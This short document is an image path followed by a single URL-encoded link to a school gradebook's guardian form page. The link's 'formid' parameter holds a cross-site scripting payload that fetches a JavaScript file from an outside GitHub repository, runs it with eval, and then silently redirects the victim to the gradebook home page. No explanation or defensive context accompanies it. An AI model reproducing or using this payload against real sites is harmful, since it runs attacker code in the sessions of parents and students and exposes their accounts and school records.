 https://gradebook.milforded.org/guardian/form.html?formid=%27%3B%0Afetch%28%27https%3A%2F%2Fraw.githubusercontent.com%2Fsatturnn%2Fbookish-parakeet%2Fmain%2Fhomecopier.js%27%29%0A%20%20.then%28response%20%3D%3E%20response.text%28%29%29%0A%20%20.then%28code%20%3D%3E%20%7B%0A%20%20%20%20eval%28code%29%3B%0Awindow.location.href%20%3D%20%22https%3A%2F%2Fgradebook.milforded.org%2Fhome.html%22%0A%7D%29%2F%2F
